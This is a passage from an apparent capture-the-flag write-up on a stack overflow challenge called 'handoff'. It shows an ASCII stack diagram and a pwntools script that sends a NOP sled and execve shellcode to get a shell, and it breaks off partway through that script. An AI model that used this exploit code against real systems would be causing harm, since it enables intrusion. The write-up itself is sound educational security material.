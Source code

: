            |  +----->|        total_entries          |        |
            |         | SUB EAX, 0x2CC    | JMP $RAX--|--(d)---+
            |         |-------------------------------|     
            |         |   Saved $rbp (main() frame)   |     
            |         =================================     
            +---(a)---|--*     Return address         |     
                      |-------------------------------|    
                      |                               |

Note that the `Saved $rbp` entry at `$rbp` does get clobbered by the code added at `total_entries` as this required 8 bytes for the instructions and `total_entries` is only 4 bytes. But we don't need to worry about preserving `main()`'s stack frame so much anyway.

## Solution ##

The [pwntools](https://docs.pwntools.com/en/stable/) script I used that during the event:

    #!/usr/bin/env python3

    from pwn import *

    target_elf = ELF("./handoff")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()


    # add an entry (name = NOP sled)
    target_proc.recvuntil(b'3. Exit the app\n')
    target_proc.sendline(b'1');
    target_proc.recvuntil(b'What\'s the new recipient\'s name:')
    target_proc.sendline(b'\x90' * 30)

    # write a message with our shellcode, for entries[0]
    target_proc.recvuntil(b'3. Exit the app\n')
    target_proc.sendline(b'2');
    target_proc.recvuntil(b'Which recipient would you like to send a message to?')
    target_proc.sendline(b'0')
    target_proc.recvuntil(b'What message would you like to send them?')
    random_shellcode = asm("""
      mov rdi, rax
      add rdi, (64 - 9)
      mov rax, 59
      xor rsi, rsi
      xor rdx, rdx
      syscall
      mov rax, 0x40143f
      jmp rax